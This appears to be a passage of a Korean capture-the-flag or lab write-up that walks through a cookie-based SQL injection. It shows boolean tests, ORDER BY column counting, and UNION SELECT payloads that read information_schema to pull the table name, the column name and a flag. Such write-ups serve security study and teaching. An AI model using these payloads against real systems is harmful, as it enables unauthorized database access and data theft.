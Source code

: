 | 쿠키 값               | 결과                    | 의미              |
| ------------------ | --------------------- | ---------------- |
| `1111' and '1'='1` | `Nothing Here...` 표시됨 | 조건이 참 |
| `1111' and '1'='2` | `Nothing Here...` 사라짐 | 조건이 거짓   |

- 이로써 해당 포인트에서 **SQL Injection이 가능함을 확인**할 수 있었다.

위 Injection 포인트를 기반으로, `ORDER BY` 문을 활용하여 해당 쿼리의 컬럼 개수를 확인하였다.

```html
1111' order by 1 #
```

> **컬럼 개수: 1개**

```html
' union select database() #
```

> **데이터베이스 이름: `sqli_6`**

- 데이터베이스 이름을 식별했으므로, 이제 이를 기반으로 **테이블명, 컬럼명, 플래그 값**까지 순차적으로 추출해보겠다.

```html
' union select table_name from information_schema.tables where table_schema='sqli_6' limit 1,1 #
```

> **테이블 이름: `flag_table`**

```html
111' union select column_name from information_schema.columns where table_schema='sqli_6' and table_name='flag_table' limit 1,1 #
```

> **컬럼 이름: `flag`**

테이블명과 컬럼명을 모두 확인하였다.
이제 해당 테이블을 활용하여 **플래그 값**을 추출해보겠다.

```html
' union select flag from flag_table limit 1,1 #
```

![sqli6 flag](./screenshots/sqli_6_flag.png)
